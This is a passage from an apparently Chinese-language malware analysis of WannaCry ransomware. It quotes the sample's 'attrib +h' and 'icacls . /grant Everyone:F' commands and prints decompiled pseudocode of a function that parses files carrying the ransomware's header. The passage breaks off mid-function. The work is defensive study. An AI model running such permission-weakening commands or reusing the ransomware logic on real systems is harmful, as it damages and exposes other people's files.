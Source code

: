 定位到WinMain，可以看到大部分的文件操作都在主函数中，此前行为分析已经看到了，所以就不再赘述，我们关心的是如何加密。

再继续跟代码，发现依然是创建服务，并以服务的方式再次启动自身。

这里说一下，执行的
```
attrib.exe +h
icacls.exe . /grant Everyone:F /T /C /Q
```
是用来修改文件的隐藏属性以及权限。我们跟到sub_4014A6中，前面的几个函数就不再展开了，和log中的行为相对应。

```c
int __thiscall sub_4014A6(void *this, LPCSTR lpFileName, int a3)
{
  void *v3; // esi@1
  int v4; // ebx@1
  HANDLE v5; // edi@1
  size_t Size; // [sp+14h] [bp-244h]@1
  int v8; // [sp+18h] [bp-240h]@1
  char Buf1; // [sp+1Ch] [bp-23Ch]@1
  int v10; // [sp+1Dh] [bp-23Bh]@1
  __int16 v11; // [sp+21h] [bp-237h]@1
  char v12; // [sp+23h] [bp-235h]@1
  __int64 dwBytes; // [sp+24h] [bp-234h]@9
  char Dst; // [sp+2Ch] [bp-22Ch]@11
  int v15; // [sp+22Ch] [bp-2Ch]@1
  int v16; // [sp+230h] [bp-28h]@12
  LARGE_INTEGER FileSize; // [sp+234h] [bp-24h]@2
  int v18; // [sp+23Ch] [bp-1Ch]@1
  CPPEH_RECORD ms_exc; // [sp+240h] [bp-18h]@1

  v3 = this;
  v4 = 0;
  v15 = 0;
  Size = 0;
  Buf1 = 0;
  v10 = 0;
  v11 = 0;
  v12 = 0;
  v8 = 0;
  v18 = 0;
  ms_exc.registration.TryLevel = 0;
  v5 = CreateFileA(lpFileName, 0x80000000, 1u, 0, 3u, 0, 0);
  if ( v5 != (HANDLE)-1 )
  {
    GetFileSizeEx(v5, &FileSize);
    if ( FileSize.QuadPart <= 104857600 )
    {
      if ( dword_40F880(v5, &Buf1, 8, &v18, 0) )
      {
        if ( !memcmp(&Buf1, aWanacry, 8u) )
        {
          if ( dword_40F880(v5, &Size, 4, &v18, 0) )
          {
            if ( Size == 256 )
            {
              if ( dword_40F880(v5, *((_DWORD *)v3 + 306), 256, &v18, 0) )
              {
                if ( dword_40F880(v5, &v8, 4, &v18, 0) )
                {
                  if ( dword_40F880(v5, &dwBytes, 8, &v18, 0) )
                  {
                    if ( dwBytes <= 104857600 )
                    {
                      if ( sub_4019E1(*((void **)v3 + 306), Size, &Dst, (int)&v15) )
```